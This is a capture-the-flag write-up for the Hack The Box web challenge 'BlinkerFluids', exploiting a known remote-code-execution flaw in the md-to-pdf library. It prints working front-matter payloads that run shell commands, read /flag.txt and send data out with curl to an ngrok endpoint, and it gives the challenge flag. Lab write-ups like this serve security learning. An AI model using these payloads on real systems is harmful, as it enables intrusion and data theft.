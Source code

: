 # BlinkerFluids

## Challenge

```
Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr.
The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp.
Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server.
Can you help him?
```

Category: Web

Points: 300

Files:

- [web_blinkerfluids.zip](web_blinkerfluids.zip)

## Writeup

Opening the challenge site we can see a list of some invoices, that are available for download in PDF format.

A button on the bottom of the list can be used to create a new invoice.

![list](images/list.png)

On the page for creating a new invoice we can see a rich text field, we can put in some markdown text and, on save, it will be converted into a PDF file.

Considering that markdown permits us to put some HTML code inside it, the first thing we try is to perform some basic XSS attack, but nothing seems to work.

At this point, we started to inspect the [source code](web_blinkerfluids.zip) of the site, to find something interesting.

The first thing we notice is the flag `--no-sandbox` in the pdf generation method options.

After searching for the library that is used to perform the conversion from Markdown to PDF (`md-to-pdf`), we discovered that has an RCE vulnerability affection the versions before 5.0.0.

For some tests we started the docker container locally and try the PoC payload in the references:

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```

And it works!

We tried to read the local fake flag file instead of `id` and it worked!

```
---js\n((require("child_process")).execSync("cat /flag.txt > /tmp/RCE.txt"))\n---RCE
```

Now we have tried to create a reverse shell but the library or the container continues to stop the shell process.

At this point, we tried something less advanced, but still effective.

In the Dockerfile you can see that is installed curl in the container, so we used it to make a call to an our ngrok endpoint with the flag in the URL:

Create an invoice with this payload and we can see the flag on the request URL:

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt)"))\n---RCE
```

![requests1](images/requests1.png)

Unfortunately, some characters are not encoded correctly, so we need to encode them, maybe in base64, before sending the request.

```
---js\n((require("child_process")).execSync("curl http://<ngrok-url>/$(cat /flag.txt | base64)"))\n---RCE
```

And now we can see the correct encoded flag:

![requests2](images/requests2.png)

> References:
>
> - [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880)
> - [https://github.com/simonhaenisch/md-to-pdf/issues/99](https://github.com/simonhaenisch/md-to-pdf/issues/99)

## Flag

```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```
